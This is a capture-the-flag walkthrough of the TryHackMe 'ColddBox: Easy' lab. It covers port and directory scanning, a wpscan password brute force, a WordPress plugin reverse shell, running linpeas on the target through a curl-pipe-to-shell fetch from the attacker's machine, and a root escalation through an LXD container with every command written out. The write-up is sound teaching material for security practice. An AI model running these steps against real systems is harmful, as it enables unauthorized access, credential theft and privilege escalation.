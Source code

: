> #  ColddBox: Easy
<https://tryhackme.com/room/colddboxeasy>
-------------------------
It is a cool box (literally). So lets start some Hacking …
So lets start with some nmap scan to enumerate which all ports are open.
```bash
$ sudo nmap -T4 -sV -A target > nmap_scan.txt 
```
![1](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/1.png)

So port 80 is open that I already knew by opening the ip in web browser.
Since it was a web page I began directory search to see is there any broken
access control.
```bash
$ sudo gobuster dirb -u target:80 --wordlist /usr/share/wordlists/dirb/small.txt -e -o dir.txt 
```
![2](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/2.png)

There is a ‘/hidden’ directory on the target that is accessible and gave
potential users on the target.

![3](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/3.png)

And since web page is made on wordpress and there is a login page, great
option to bruteforce wordpress login is using wpscan.

```bash
$ sudo wpscan --url http://target/wp-login.php -e u -P /usr/share/wordlist/rockyou.txt 
```
![4](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/4.png)

Bingo!!! we have a password for c0ldd user. After login we have an
admin dashboard.

Lest get a reverse shell on the target using WP plugin. I found this simple
reverse shell script on
<https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell>.

![5](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/5.png)

I started a netcat listener on my machine on port 8000 
```bash 
$ sudo nc -lvnp 8000 
```
and got a reverse shell by activating our plugin and found that www-data
user have very less permissions thus I enumerated the target using
[linpeas.sh]( https://github.com/carlospolop/privilege-escalation-awesome-scripts-suit
e/tree/master/linPEAS ).Download the linpeas.sh file form Github on your
machine,cd to the downloaded directory and start a simple python server on
your machine 
```bash 
$ python3 -m http.server 1234 
``` 
and on target run it using
```bash 
$ curl http://<attackbox_ip>:1234/linpeas.sh | sh 
```
This will directly
run the shell script on the target machine.

![6](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/6.png)

This gave away wp-config.php file that contained password of user _c0ldd_.
To su to _c0ldd_ user we need a stable shell, stablizing shell by this great
one-liner 
```bash 
$ pyhton3 -c ‘import pty;pty.spawn(“/bin/bash”)  $ su c0ldd 
```
and use password _cybersecurity_ to get access. Now cat the user.txt flag in
/home/c0ldd directory 
```bash 
$ cat /home/c0ldd/user.txt 
```

![7](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/7.png)

Hurray!! got the user flag.

##### Now lets get root access.

Linpeas enumeration also gave potential services, users that could be
exploited. Luckly lxd (container service) is present and accessible by _c0ldd_ user.

![8](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/8.png)

Lets exploit this service, Download the vulnerable container image using 
[alpine for lxd](https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml)
cd to download dir and start http server and transfer the file to target machine
using wget.

> Add the image :
```bash 
$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list -- You can see your new imported image
```
> Create a container and add root path
```bash
$ lxc init alpine privesc -c security.privileged=true
$ lxc list 
$ lxc config device add privesc host-root disk source=/ path=/mnt/root
recursive=true
```
> Execute the container:
```bash
$ lxc start privesc
$ lxc exec privesc /bin/sh
```

As this container is mounted with /root directory we can access root.txt
inside it 
```bash 
$ cat /mnt/root/root.txt 
```

![9](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/9.png)

> With that the we rooted the box.
